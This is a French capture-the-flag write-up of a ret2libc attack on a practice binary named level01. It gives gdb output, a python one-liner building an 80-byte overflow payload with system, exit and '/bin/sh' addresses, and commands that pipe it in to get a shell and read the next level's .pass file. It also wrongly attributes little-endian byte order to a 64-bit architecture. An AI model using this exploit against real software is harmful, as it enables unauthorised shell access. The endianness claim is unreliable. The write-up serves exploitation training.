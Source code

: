 Ayant trouve un nom d'utilisateur "dat_wil" et un mot de passe "admin", on tente de les rentrer.
Le mot de passe ne semble pas fonctionner. La fonction ne disposant pas d'un appel system, nous allons devoir faire appel à une attaque ret2libc.

On trouve si on peut faire crasher le programme avec une trop grosse chaine de caractere pour le nom d'utilisateur et le mot de passe.
En effectuant de nombreux tests manuels, on se rend compte que le mot de passe entraine un segfault si jamais on tape 80+ caracteres.
On a donc l'offset pour envoyer un payload.

Pour que ce payload soit utile, on va devoir acceder à certaines informations.
On demarre donc le programme avec "r" dans gdb.

On fait crash le programme lors de la saisie dumot de passe.

Suite au crash, on tape la commande
```info proc map```

On a alors le tableau suivante:
```process 1888
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

Pour chaque ligne, on tape la commande du debut a la fin de l'addresse, pour retrouver la string "/bin/sh": (0xf7f897ec)
```(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```


On cherche l'adresse de la fonction system avec la commande: (0xf7e6aed0)
```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

On cherche l'adresse de la fonction exit avec la commande: (0xf7e5eb70)
```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit
```

Le payload sera constitué de la manière suivante: offset ('*' * 80) + "system" + "exit" + "/bin/sh"
```python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload```

```cat /tmp/payload - | ./level01```

```cat /home/users/level02/.pass```


Explications supplementaires:

Il est à noté que l'appel à exit est optionnel, en effet, ligne suivante fonctionne egalement:

```python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\x00\x00\x00"+"\xec\x97\xf8\xf7"' > /tmp/payload```

Exit permet juste de quitter le programme proprement. Il est par contre imperatif de disposer d'une adresse en l'appel à system et à son argument /bin/sh.
En effet, l'assembleur a besoin de disposer d'une adresse de sortie après l'appel d'une fonction, avant de recevoir les arguments.

Ne pas indiquer d'une adresse entre system et /bin/sh fera qu'il n'y aura pas d'arguments et que /bin/sh sera la fonction de sortie, ce qui posera problème.

Enfin, vis à vis de l'ordre inversé des chiffres des adresses, cela est dû à l'architecture 64 bits de notre environnement, qui nous fait passer au format de lecture little endian.

Source: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc